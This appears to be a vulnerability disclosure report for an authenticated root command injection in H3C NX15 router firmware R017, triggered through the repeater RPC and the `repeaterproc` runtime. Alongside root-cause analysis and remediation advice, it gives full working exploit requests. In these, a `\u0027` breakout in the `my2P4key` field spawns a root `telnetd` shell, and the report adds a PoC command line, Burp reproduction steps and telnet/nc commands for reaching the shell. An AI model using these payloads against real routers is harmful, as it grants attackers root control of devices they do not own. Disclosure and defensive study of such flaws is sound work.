# H3C NX15 R017 Authenticated Root Command Injection via `esps.wan.repeater.set` and `repeaterproc`

## Summary

H3C NX15 Router firmware NX15V100R017 contains an authenticated command injection vulnerability in the `/api/esps` RPC object `esps.wan.repeater`, method `set`. Attacker-controlled `my2P4key` data is written into `/tmp/config/repeater_status` and later consumed by the `repeaterproc` runtime during the 2.4G repeater initialization path. In that path, the value is embedded into a shell-constructed `ubus call esps.system changepasswd '{"newPass":"%s"}'` command template and executed through `system_wrapper()`, allowing a remote authenticated administrator to execute arbitrary commands as root.

The issue is conditional rather than immediate. Exploitation requires the repeater state machine to enter the associated 2.4G initialization branch. Nevertheless, the root cause is a concrete shell command injection in product-specific backend logic, and runtime validation confirmed both marker-file execution and a spawned root shell on real hardware.

During the verified real-world reproduction, the initial exploit request was sent to the default management address `192.168.8.1`, but after the router successfully switched into repeater mode, the device management plane moved to a new upstream DHCP-assigned address. In the confirmed exploit run documented here, the H3C router became reachable at `192.168.10.134`, and the injected root shell was reachable at `telnet 192.168.10.134 2461`.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC plus repeater runtime
- Vulnerable object: `esps.wan.repeater`
- Vulnerable method: `set`
- Vulnerable parameter: `my2P4key`
- Trigger component: `repeaterproc`

## Vulnerability Type

- OS command injection
- Delayed conditional execution through repeater state-machine processing
- Suggested CWE: CWE-78 Improper Neutralization of Special Elements used in an OS Command
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can execute arbitrary commands as root once the router enters the vulnerable repeater runtime branch. Confirmed impact includes:

- Writing attacker-controlled marker files as root.
- Starting a root shell service.
- Connecting to the spawned service and executing commands with UID 0.
- Forcing the router into repeater/bridge mode so that the management IP moves away from the factory-default address and is reassigned from the upstream network.

The issue also has a configuration side effect: the injected `my2P4key` value is written into `wireless.2gssid1.key` before the shell sink is reached, so successful exploitation contaminates the 2.4G AP key with the payload string.

## Technical Details

### Authenticated request flow

The vulnerable request path is:

```text
POST /api/esps
  -> authenticated /www/api /esps handler
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua maps object/method/param directly to ubus
  -> esps.wan.repeater set
  -> /usr/libexec/rpcd/esps.wan.repeater
  -> /tmp/config/repeater_status
  -> /usr/bin/repeaterproc
```

As with the other `/api/esps` issues in this firmware, the authenticated web layer forwards the external JSON request into backend RPC handling with very little object-level restriction.

### Stage 1: Web input reaches `/tmp/config/repeater_status`

When `workMode=repeater`, the backend handler stores repeater-related fields including:

- `perior_ssid`
- `perior_key`
- `perior_encrypt`
- `my2P4ssid`
- `my2P4key`
- `my5Gssid`
- `my5Gkey`

into `/tmp/config/repeater_status`.

The top-level request filtering is insufficient. A raw single quote can be smuggled through the HTTP JSON body by using the Unicode escape sequence `\u0027`. In the confirmed exploit request, the payload-bearing field was:

```json
"my2P4key":"x\u0027;telnetd -p2461 -l /bin/sh >/tmp/rp 2>&1;#"
```

After JSON decoding, the real single quote is preserved in the stored repeater configuration and reaches later runtime logic.

### Stage 2: Key whitelist checks can be skipped

The backend includes logic intended to validate repeater keys. However, that check is skipped when the attacker chooses a 2.4G repeater configuration where:

- `periorradio == "2.4G"`
- `my2P4ssid == perior_ssid`


Under those conditions, the code path clears the validation requirement and allows the attacker-controlled `my2P4key` value to continue without the expected whitelist enforcement.

### Stage 3: `repeaterproc` reloads the stored value

Reverse analysis confirmed that `repeaterproc` reads `/tmp/config/repeater_status` through `LoadLocalRepeaterApConfig()`. The relevant internal layout places:

- `my2P4ssid` at `a1 + 0`
- `my2P4key` at `a1 + 48`
- `my5Gssid` at `a1 + 112`
- `my5Gkey` at `a1 + 160`

This means the value written from the web API later becomes the `my2P4key` value used by the runtime state machine.

### Stage 4: Conditional state-machine gate

This issue is not a direct "send once, execute immediately" injection. The vulnerable sink is reached only when `repeaterproc` enters the 2.4G initialization branch associated with a successful repeater association state.

Runtime analysis showed that the branch depends on conditions such as:

- `LoadEnabledRepeaterUplinkConfig()` selecting the initialization path rather than the already-enabled monitoring path.
- `/tmp/config/connected` indicating link readiness.
- `SampleRepeaterUplinkRuntimeStatus()` treating `wlan1-vxd` as associated.
- A positive RSSI and `online_time >= 6` being observed in the associated status data.


On a real deployment, these conditions can be satisfied when the router genuinely attempts to associate to an attacker-controlled or attacker-influenced upstream AP. This was confirmed during testing with a real 2.4G upstream AP using:

- SSID: `same-ssid`
- passphrase: `upstreampass`
- security mode: `WPA2-PSK`

Once association succeeds, `ApplyRepeaterNetworkMode()` moves `network.lan1` into DHCP-backed repeater/bridge mode. As a result, the management plane no longer reliably remains at the original address `192.168.8.1` and must be rediscovered on the upstream network. In the verified exploit run documented here, the router obtained `192.168.10.134` from the upstream DHCP server.



On a single-router bench, these conditions can also be emulated to validate the sink without changing the root cause.

### Stage 5: Root command injection sink

In `ApplyLocalRepeaterApConfig()`, `my2P4key` is first written into the wireless configuration and is then used to build a shell command when `system.system.password_consistent_switch == 1`:

```c
snprintf(buf, ..., "ubus call esps.system changepasswd '{\"newPass\":\"%s\"}'", key);
system_wrapper(buf);
```

The test device was configured with:

```text
system.system.password_consistent_switch=1
```

so the sink was reachable. Once `my2P4key` contains a real single quote, the attacker can break out of the shell-quoted JSON fragment and append arbitrary shell commands. For example, a payload conceptually shaped like:

```text
x';telnetd -p2461 -l /bin/sh >/tmp/rp 2>&1;#
```

turns the intended `ubus call ...` template into a shell breakout that executes attacker-controlled commands as root. In the real HTTP exploit request, that single quote was introduced as `\u0027` inside the JSON body, while the later shell sink consumed it as a real `'`.

### Why this is a distinct CVE candidate

This issue is distinct from the other authenticated RPC issues in this firmware line. It is neither a raw ubus execution surface such as `file.exec` / `service.add`, nor a direct `reload.reload_config` parameter injection. Instead, it is a product-specific command injection in the repeater runtime that is reached by authenticated configuration input and later triggered by the device's own repeater state machine.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `/usr/libexec/rpcd/esps.wan.repeater`: backend handler that writes repeater configuration fields, including `my2P4key`, into `/tmp/config/repeater_status`.
- `/usr/bin/repeaterproc`: repeater runtime that reloads the stored fields and reaches the vulnerable shell command template.
- `/tmp/config/repeater_status`: temporary configuration file carrying the attacker-controlled repeater fields between the web API and `repeaterproc`.
- `/proc/wlan1-vxd/sta_info`: runtime status source used during the vulnerable 2.4G association decision path.
- `/tmp/config/connected`: runtime state file used by the repeater flow before association status is checked.

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_esps_wan_repeater_repeaterproc_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --helper-port 2330 \
  --shell-port 2461 \
  --cleanup
```

The PoC supports two modes:

1. Default assisted mode:
   Uses an existing lab helper root shell on port `2330` to emulate a successful 2.4G repeater association on a single-router bench by preparing `/tmp/config/connected`, providing associated status data, and restarting `repeaterproc`.
2. `--no-assist` mode:
   Use this in a real repeater test environment where the router can genuinely associate to the attacker-controlled upstream AP and naturally enter the vulnerable branch.

The PoC:

1. Authenticates to the web interface.
2. Optionally prepares the single-router lab state.
3. Sends a raw `/api/esps` request whose `my2P4key` contains a `\u0027`-based breakout payload.
4. Waits for `repeaterproc` to hit the vulnerable sink.
5. Connects to the spawned shell service and verifies root execution.

Expected result:

```text
uid=0(root)
```

Operational note:

- The exploit request is initially sent to the pre-repeater management address, typically `http://192.168.8.1`.
- After the repeater transition succeeds, the router may move onto the upstream network and receive a new DHCP-assigned management address.
- In the verified run documented here, the post-transition address was `192.168.10.134`, and the root shell listener was reachable at `telnet 192.168.10.134 2461`.

Manual request sequence:

1. Authenticate through `POST /api/login/auth` and capture the `session`.
2. Prepare either:
   - a real repeater environment where the router will enter the associated 2.4G repeater path, or
   - a lab-assisted state equivalent to the one automated by the PoC.



3. Send a raw request to `/api/esps` so the `\u0027` sequence is preserved exactly:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"esps.wan.repeater","method":"set","param":{"list":[{"intf":"WAN1","workMode":"repeater","periorssid":"same-ssid","periorkey":"upstreampass","periorradio":"2.4G","periorencrypt":"wpa2psk","my2P4ssid":"same-ssid","my2P4key":"x\u0027;telnetd -p2461 -l /bin/sh >/tmp/rp 2>&1;#","my5Gssid":"dummy5g","my5Gkey":"DummyPass9!","status":"enable","ip":"192.168.8.2","submask":"255.255.255.0","gwIp":"192.168.8.1"}]}}]
```

4. Wait for the repeater runtime to process the stored configuration.




5. After the router successfully enters repeater mode, rediscover the device on the upstream network because the management IP may have changed from `192.168.8.1` to a DHCP-assigned upstream address.
6. Connect to `telnet <new-router-ip> 2461` and run `id`.

In the verified exploit run for this report, the new router address was:

```text
192.168.10.134
```

Marker-file validation request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"esps.wan.repeater","method":"set","param":{"list":[{"intf":"WAN1","workMode":"repeater","periorssid":"same-ssid","periorkey":"upstreampass","periorradio":"2.4G","periorencrypt":"wpa2psk","my2P4ssid":"same-ssid","my2P4key":"x\u0027;echo REPEATER_KEY_OK >/tmp/repeater_key_marker;#","my5Gssid":"dummy5g","my5Gkey":"DummyPass9!","status":"enable","ip":"192.168.8.2","submask":"255.255.255.0","gwIp":"192.168.8.1"}]}}]
```

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```



2. Extract `data.session`.
3. Ensure the test environment is ready to make `repeaterproc` enter the associated 2.4G repeater branch.
4. Send the raw `/api/esps` request with the `\u0027` payload:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <session>
Connection: close

[{"id":1,"object":"esps.wan.repeater","method":"set","param":{"list":[{"intf":"WAN1","workMode":"repeater","status":"enable","periorssid":"same-ssid","periorkey":"upstreampass","periorradio":"2.4G","periorencrypt":"wpa2psk","my2P4ssid":"same-ssid","my2P4key":"x\u0027;telnetd -p2461 -l /bin/sh >/tmp/rp 2>&1;#","my5Gssid":"dummy5g","my5Gkey":"DummyPass9!","ip":"192.168.8.2","submask":"255.255.255.0","gwIp":"192.168.8.1"}]}}]
```

5. Wait briefly and connect:




```bash
telnet 192.168.10.134 2461
```

The address `192.168.10.134` is the verified post-repeater DHCP address observed in the confirmed exploit run. Testers should not assume the device will remain reachable at `192.168.8.1` after the repeater transition succeeds; instead, they should rediscover the router on the upstream subnet by checking the upstream DHCP client table, ARP cache, or host discovery results.

or:

```bash
nc 192.168.10.134 2461
```

6. Run:

```sh
id
uname -a
```

Expected result:

```text
uid=0(root)
```

Note on payload length:

`my2P4key` is constrained by a short fixed-size copy in the repeater runtime, so use compact payloads and keep the effective shell fragment short.

## Evidence

- Raw `/api/esps` requests can store a real single quote in `my2P4key` by using `\u0027` in the JSON body.
- The backend can skip repeater key validation when the attacker chooses the 2.4G path with `my2P4ssid == perior_ssid`.
- Reverse analysis confirmed that `LoadLocalRepeaterApConfig()` maps `my2P4key` into the structure later consumed by `ApplyLocalRepeaterApConfig()`.
- Reverse analysis confirmed that `ApplyLocalRepeaterApConfig()` builds `ubus call esps.system changepasswd '{"newPass":"%s"}'` and executes it through `system_wrapper()` when `password_consistent_switch == 1`.
- Runtime testing confirmed:
  - marker file creation at `/tmp/repeater_key_marker`,
  - contamination of `wireless.2gssid1.key` with the payload string,
  - and successful root shell access on the spawned port.

## Attachments

- Report: `report/postauth_esps_wan_repeater_repeaterproc_rce_report.md`
- PoC: `poc/postauth_esps_wan_repeater_repeaterproc_rce.py`

## Remediation

- Remove shell command construction from the repeater runtime and replace it with direct API calls that do not invoke a shell.
- Treat all repeater credential fields, including `my2P4key`, as untrusted data and apply strict positive validation before use.
- Normalize or reject Unicode-escaped dangerous characters before any security filtering decisions are made.
- Do not pass credential values into shell-quoted JSON strings.
- Revisit the repeater key-validation bypass conditions and ensure that the equality shortcut cannot disable validation on attacker-controlled data.
- Add backend hardening so configuration data loaded from `/tmp/config/repeater_status` is never executed as command content.
